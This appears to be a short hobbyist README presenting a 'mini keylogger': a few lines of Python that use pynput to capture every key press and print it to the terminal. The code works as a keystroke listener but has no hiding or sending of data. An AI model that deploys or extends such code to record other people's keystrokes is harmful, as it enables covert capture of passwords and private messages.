 # mini_keylogger

it is an mini keylogger which prints all key strokes typed in our terminal(iam using in kali)

iam attaching the python file and code here;)



<code starts here>


import pynput.keyboard


def callback_function(key):
    print(key)

keylogger_listener = pynput.keyboard.Listener(on_press=callback_function)
with keylogger_listener:
    keylogger_listener.join()
    
    
    <varta mamey;)>
